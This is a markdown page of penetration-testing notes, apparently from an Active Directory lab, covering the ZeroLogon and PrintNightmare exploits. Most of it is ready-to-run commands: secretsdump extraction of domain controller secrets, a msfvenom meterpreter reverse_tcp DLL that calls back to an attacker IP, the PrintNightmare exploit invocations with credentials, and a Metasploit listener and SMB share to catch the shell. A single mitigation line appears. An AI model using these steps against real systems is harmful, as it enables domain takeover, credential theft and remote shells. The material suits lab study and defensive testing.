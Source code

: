 ## Additional Attacks
### ZeroLogon

VERY DANGEROUS to do, will break DC if you don't set password back  
What is ZeroLogon? - <https://www.trendmicro.com/en_us/what-is/zerologon.html>  
dirkjanm CVE-2020-1472 - <https://github.com/dirkjanm/CVE-2020-1472>   
SecuraBV ZeroLogon Checker - <https://github.com/SecuraBV/CVE-2020-1472>  

`python3 zerologon_tester.py HYDRA-DC 192.168.176.121`   
If vulnerable, then dump secrets with no password  
`secretsdump.py -just-dc MARVEL\HYRDA-DC\$@192.168.176.121`  

TO RESTORE PASSWORD and DC functionality  
`secretsdump.py administrator@192.168.176.121 -hashes`    
Find plain_password_hex, copy it for next command
`python3 restorepassword.py MARVEL/HYRDA-DC@HYDRA-DC -target-iup 192.168.176.121 -hexpass  (plain_password_hex)`   
***  
### PrintNightmare  CVE-2021-1675  
Check if vulnerable #print 
```
─$ rpcdump.py @192.168.176.121 | egrep 'MS-RPRN|MS-PAR'  
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol  
Protocol: [MS-RPRN]: Print System Remote Protocol  
```
1. Install latest version of impacket 
```
pip3 uninstall impacket  
git clone https://github.com/cube0x0/impacket   
cd impacket  
python3 ./setup.py install  
``` 
1. EXPLOIT : Copy CVE-2021-1675 locally  
2. Build malicious DLL with msvenom  
3. Setup multihandler in msfconsole, to catch payload
4. setup smb share with impacket to share dll as neccessary
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.176.129 LPORT=5555 -f dll > shell.dll   
./CVE-2021-1675.py MARVEL.LOCAL/fcastle:Password1@192.168.176.121 c:\shell.dll    
./CVE-2021-1675.py MARVEL.LOCAL/fcastle:Password1@192.168.176.121 \\192.168.176.129\share\shell.dll # or host with SMB  
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 192.168.176.129; set lport 5555; exploit"   
smbserver.py share `pwd` -smb2support 
```

Mitigation - Disable printer spooler service                                                          

CVE-2021-1675  
cube0x0 RCE - https://github.com/cube0x0/CVE-2021-1675
calebstewart LPE - https://github.com/calebstewart/CVE-2021-1675




***  
### Sam the Admin  


